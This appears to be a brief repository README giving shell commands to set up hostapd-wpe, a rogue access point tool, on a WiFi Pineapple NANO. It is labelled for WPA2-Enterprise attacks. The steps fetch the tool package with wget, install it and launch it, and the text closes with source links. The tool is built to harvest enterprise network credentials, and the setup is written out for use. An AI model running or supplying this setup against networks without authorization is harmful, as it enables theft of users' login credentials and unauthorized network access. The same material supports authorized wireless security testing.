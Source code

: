 # Hostapd-wpe on the Pineapple NANO for WPA2-Enterprise Attacks
ssh root@IP-OF-PINEAPPLE
cd /tmp
wget https://github.com/metalkey/pineapple-nano-hostapd-wpe/blob/master/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
opkg install ./hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
cd
hostapd-wpe pineapple-hostapd-wpe.conf

# Creds
https://github.com/TarlogicSecurity/hostapd-wpe-openwrt/raw/master/packages/ar71xx/generic/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk
https://forums.hak5.org/index.php?/topic/38982-hostapd-wpe/
